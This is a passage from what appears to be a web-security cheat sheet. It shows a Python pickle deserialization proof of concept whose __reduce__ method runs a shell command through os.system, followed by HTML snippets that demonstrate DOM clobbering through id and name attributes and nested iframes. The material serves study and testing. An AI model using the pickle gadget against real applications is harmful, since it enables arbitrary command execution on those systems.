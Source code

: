     ```python
    class Exploit(object):
      def __reduce__(self):
        return (os.system, ('id', ))

    serialized = pickle.dumps(Exploit())
    pickle.loads(serialized)
    #pickletools.dis(serialized)
    ```

#### DOM Clobbering
- Inject HTML into a page to manipulate the DOM to change the behavior of JavaScript on the page
  - Access by `id` directly or by `windows.id`
    ```html
    <any id="a"></any>
    <script>
      console.log(a)
      console.log(window.a)
    </script>
    ```
  - Access by `document.a` additionally
    ```html
    <img name="a">
    <form name="b"></form>
    <embed name="c">
    <object name="d"></object>
    <script>
      console.log(document.a)
      console.log(document.b)
      console.log(document.c)
      console.log(document.d)
    </script>
    ```
  - Access by combination of `id` and `name`
    ```html
    <any id="a"></any>
    <any id="a" name="b"></any>
    <script>
      console.log(a) // HTMLCollection[]
      console.log(a.a)
      console.log(a.b)
    </script>
    ```
  - Access multi-layer windows object
    ```html
    <iframe name="a" srcdoc='
      <iframe name="b" srcdoc="
        <iframe name=&amp;quot;c&amp;quot; srcdoc=&amp;quot;
          <a id=d></a>
        &amp;quot;></iframe>
      "></iframe>
    '></iframe>
    <script>
      console.log(a.b.c.d)
    </script>
    ```

